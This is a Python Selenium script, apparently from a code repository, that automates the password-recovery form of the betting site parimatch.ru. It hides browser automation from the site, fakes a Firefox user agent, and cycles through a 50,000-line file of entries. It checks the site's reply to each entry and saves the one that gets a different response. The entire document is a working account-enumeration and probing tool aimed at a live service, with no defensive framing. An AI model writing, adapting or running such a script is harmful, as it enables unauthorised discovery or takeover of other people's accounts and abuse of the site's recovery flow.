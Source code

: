 # pari_check
import time
from fake_useragent import UserAgent
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys

def browser():
    options = webdriver.ChromeOptions()
    options.add_experimental_option('useAutomationExtension', False)
    options.add_argument("--disable-blink-features=AutomationControlled")
    options.add_argument("--enable-javascript")
    options.headless = False
    ua = UserAgent()
    uaa = ua.data['browsers']['firefox'][0]
    print(uaa)
    options.add_argument(f'user-agent={uaa}')
    driver = webdriver.Chrome(options=options, executable_path=r"C:\chromedriver.exe")
    driver.get("https://www.parimatch.ru/")
    f = open(r'C:\50k.txt', 'r')
    time.sleep(2)
    driver.find_element(By.XPATH, r'//*[@id="root"]/div[1]/div/div[3]/div[2]/a/button/span').click()
    time.sleep(2)
    driver.find_element(By.XPATH, r'//*[@id="root"]/div[2]/div[2]/div/div/a[1]').click()
    time.sleep(2)
    time.sleep(2)
    driver.find_element(By.XPATH,
                            r'/html/body/div[3]/div[2]/div[2]/div/div/div[1]/form/div[2]/div/div[2]/select/option[3]').click()
    time.sleep(2)
    driver.find_element(By.XPATH,
                            r'/html/body/div[3]/div[2]/div[2]/div/div/div[1]/form/div[1]/div/div[2]/input').send_keys("abraham@mail.ru")
    driver.find_element(By.XPATH, r'//*[@id="root"]/div[2]/div[2]/div/div/div[1]/form/button/span').click()
    for line in f:
        time.sleep(2)
        if driver.find_element(By.XPATH, r'//*[@id="root"]/div[2]/div[2]/div/div/div[1]/div').text == "Пароль к данному номеру счета невозможно восстановить автоматически":
            time.sleep(1)
            driver.find_element(By.CLASS_NAME, r"_3Mkr44AETtk2f49E01Pjx-").send_keys(line)
            time.sleep(3)
            driver.find_element(By.XPATH, r"/html/body/div[3]/div[2]/div[2]/div/div/div[2]/form/button/span").click()
            time.sleep(2)
            bbb = driver.find_element(By.CLASS_NAME, r"_3Mkr44AETtk2f49E01Pjx-")
            bbb.send_keys(Keys.CONTROL, 'a')
            bbb.send_keys('')
            time.sleep(2)
        else:
            print(line)
            ff = open(r'C:\Users\user\Desktop\text.txt', 'a')
            ff.write(line)
            return


browser()

